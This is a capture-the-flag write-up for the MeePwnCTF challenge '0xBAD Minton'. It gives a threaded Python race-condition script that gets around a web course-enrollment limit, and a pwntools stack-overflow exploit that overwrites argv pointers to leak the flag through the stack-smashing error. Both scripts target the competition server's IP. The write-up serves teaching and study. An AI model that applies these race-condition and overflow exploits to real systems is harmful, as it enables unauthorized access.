


# 0xBAD Minton (web/pwn, 14 solved, 740p)

## Web part

First part of the task is on the Web side.
We get access to some webpage where we can register, and sign-up for 0-3 "courses".
There is really nothing more, no SQLi in forms or anything else.

In the root of the page we get access to some interesting files:

- [backend server binary](backend_server)
- Todo note `Quickly complete netcat client version on 178.128.84.72:9997`

We can connect via netcat to given endpoint, and the binary we just found is actually listening there for connections.
Once we reverse engineer the binary a bit, we come to the conclusion, that we could exploit it, if we manage to sign-up for more than 3 courses.
This has to be done on the web side.

We thought that maybe a simple race condition will work, but it didn't.
Then we tried to do race condition, with multiple sessions, and it worked just fine.

We create 2 different user session on the webpage.
Then we try to add courses from both of them at the same time:

```python
import threading
import requests
from queue import Queue

max = 100
threads = Queue()
init_barrier = threading.Barrier(max * 2)


def enroll(cookie):
    threads.get()
    init_barrier.wait()
    url = "http://178.128.84.72/login.php?action=enroll"
    print(requests.get(url, cookies={"PHPSESSID": cookie}).text)
    threads.task_done()


def worker2(index):
    enroll("33hoabtfv6t8amoovlrjecqun5")


def worker(index):
    enroll("qq5kqe8lbeim1md44m2bnuajr4")


def main():
    for i in range(max):
        thread = threading.Thread(target=worker, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max):
        thread = threading.Thread(target=worker2, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max * 2):
        threads.put(i)
    threads.join()


main()
```

We go with 2 sessions, and 100 threads each.
After we run this, we get user with 6 courses, which is enough to exploit the binary.

## Pwn part

Now to explain why we needed more than 3 sessions.

The serwer allows us to load our user from mysql database using a token then input our courses names and print them.



To do so, it allocates 3080 bytes on the stack:

``` c++
char s[3080]; // [rsp+290h] [rbp-C10h]

 ...
if ( courses_num )
{
    for ( j = 0; j < courses_num; ++j )
    {
      printf("#%d Oh I heard that you already enrolled a course\n", j);
      v3 = &s[1024 * (signed __int64)(signed int)j];
      printf("What is the course name?> ");
      read(0, v3, 1024uLL);
    }
}
```

Now that we have more courses than space on stack we can try to overwrite some of the stack!

The flag is already read into a global variable for us, cool!
``` c++
int read_flag()
{
  int buf_4; // ST34_4

  alarm(0x14u);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  chdir((const char *)(unsigned int)"/home/badminton/");
  buf_4 = open((const char *)(unsigned int)"flag", 0);
  read(buf_4, (void *)(unsigned int)&unk_604070, 0x40uLL);
  return close(buf_4);
}
```

Unfortunately there are no pointers on stack that are printed further in the execution so we'll have to come up with something else.



Maybe we can use the stack cookie to our advantage?

https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/pwn/readme-200

By overwriting the pointers in argv and triggering stack smashing we could leak the flag as the programs name, let's try it out!

``` python
from pwn import *
context.log_level = 'debug'

token = '0010318d0edf64b4a79634c005aac0244bc794f0014cbe89fd6356807a806509'

r = remote('178.128.84.72', 9997)

print(r.recvuntil('Token>'))

r.send(token + '\n')

for i in range(3):
    print(r.recvuntil('What is the course name?>'))
    r.send("Bzorp")

for i in range(3):
    r.recvuntil('What is the course name?>')
    r.send(p64(0x0000000000604070)*(1024 / 8))

r.interactive()
``` 

We're just basically hammering the whole stack with the flag's address.

```
----------------BADMINTON TRAINING----------------
1. Push-up
2. Running
3. Give up
> $ 3
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x61 bytes:
    '*** stack smashing detected ***: MeePwnCTF{web+pwn+oldschool+stuff+stack+terminated}\n'
    ' terminated\n'
*** stack smashing detected ***: MeePwnCTF{web+pwn+oldschool+stuff+stack+terminated}
 terminated
[*] Got EOF while reading in interactive
```

It worked!

